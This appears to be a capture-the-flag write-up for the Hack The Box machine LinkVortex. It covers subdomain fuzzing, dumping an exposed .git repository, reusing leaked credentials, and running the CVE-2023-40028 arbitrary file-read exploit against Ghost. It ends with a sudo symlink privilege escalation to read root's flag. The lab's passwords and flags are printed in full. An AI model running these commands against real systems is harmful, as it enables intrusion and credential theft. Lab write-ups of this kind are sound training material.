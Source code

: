```yaml
---
sticker: lucide//external-link
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

Let's visit the website:

![](Pasted%20image%2020250104153239.png)

We need to add `linkvortex.htb` to `/etc/hosts`:

![](Pasted%20image%2020250104153434.png)

Seems like a simple page, let's take a look at source code:


![](Pasted%20image%2020250104153824.png)

Nothing useful, but, we know this machine has `robots.txt` so, let's check it:

![](Pasted%20image%2020250104162318.png)

We found useful stuff, let's begin with fuzzing


## FUZZING
---

When we try to fuzz in the standard way, we encounter that we are unable to fuzz in this way: `http://URL/FUZZ`, so, i thought we need to fuzz for subdomains instead of directories like we always do, let's use the following ffuf command: 

```ad-hint

`ffuf -c -u http://TARGET_URL/ -H "Host: FUZZ.TARGET_URL" -w /path/to/wordlist.txt -fc 301`

#### Key points

- The -fc 301 flag filters out http 301 redirects, keeping results relevant.
- Subdomain enumeration can reveal hidden environments like `subdomain.linkvortex.htb`
```


Let's fuzz:

![](Pasted%20image%2020250104154221.png)

We found something interesting!

`dev.linkvortex.htb`


Also, we found `linkvortex.htb/ghost/#/signin`

Let's visit the page and start with reconnaissance

# RECONNAISSANCE
---
![](Pasted%20image%2020250104154412.png)

Let's use dirsearch on the `linkvortex.htb/ghost/#/signin` page, in order to find anything useful, we can use it in the following way:

```ad-hint

`python3 dirsearch.py -u linkvortex.htb -t 50 -i 200`

![](Pasted%20image%2020250104162434.png)

We found the same as before, we already know this website has `ghost`, if we deep in further, we find this page has `ghost 5.58`:

![](Pasted%20image%2020250104162522.png)
```


Nice, now, we can use a tool called `GitHack` to read the directories from the `dev.linkvortex.htb` subdomain, let's use it like this:

```ad-hint
`python3 GitHack.py -u http://dev.linkvortex.htb/.git/`


This will attempt to download a bunch of git files, after the process is done, we can find some interesting files such as the one located at:

`dev.linkvortex.htb/ghost/core/test/regression/api/admin`

![](Pasted%20image%2020250104163216.png)

We found an `authentication.test.js` file, let's read it: 

![](Pasted%20image%2020250104163311.png)

We found some credentials, since this is the admin api, we must think that the email is structured in the following way: `Username@linkvortex.htb`, so, our credentials would be: 

`admin@linkvortex.htb`:`OctopiFociPilfer45`
```

Let's log into the signin site we found:

![](Pasted%20image%2020250104163833.png)
# EXPLOITATION
---


Nice, we got initial access to the CMS, now, let's search for an exploit for this version, we know this site is running `ghost 5.58`:

```ad-hint

Exploit: [CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028/blob/master/CVE-2023-40028.sh)
```

For this version, we can find the `CVE-2023-40028` which states the following:

```ad-summary
CVE-2023-40028 affects Ghost, an open source content management system, where versions prior to 5.59.1 allow authenticated users to upload files that are symlinks. This can be exploited to perform an arbitrary file read of any file on the host operating system. It is recommended that site administrators check for exploitation of this issue by looking for unknown symlinks within Ghost's content/ folder. Version 5.59.1 contains a fix for this issue, and there are no known workarounds.

- CVE ID: CVE-2023-40028
- CVSS Score: 6.5 Medium
- Affected Software: Ghost versions before 5.59.1
- Fixed in Version: Ghost 5.59.1

```

So, we need an authenticated user in order to be able to use the exploit, how lucky of us, let's download it and use it in the following way:

```ad-hint

`./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45`

(We need to change the ghost url before using the script)

Once we've used it, we get the following:

![](Pasted%20image%2020250104164435.png)

We can now read files, after i read `/etc/passwd` file, nothing useful was in it, so, after a exhausting search, I found that at `/var/lib/config.production.json` some essential info was on it, which was the following:

![](Pasted%20image%2020250104165622.png)


```

We found some ssh credentials!: `bob@linkvortex.htb`:`fibber-talented-worth`

Let's log in and read the user flag:

![](Pasted%20image%2020250104165752.png)

![](Pasted%20image%2020250104165804.png)

User flag is: `5048fa21aa685472d4bb3b6dbf5e59d4`

Now, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---


### sudo -l


We can run sudo on the following:

![](Pasted%20image%2020250104165954.png)

Let's read the file to know what we're dealing with:

![](Pasted%20image%2020250104170040.png)

We can use the following in order to read root flag:

```ad-hint

1. `ln -s /root/root.txt hyh.txt`
2. `ln -s /home/bob/hyh.txt hyh.png`
3. `sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png`


### PoC

![](Pasted%20image%2020250104170945.png)

We were able to read the root flag, which is: `dd348008c17143e2472558713ca807f1`
```

Just like that, machine is done!

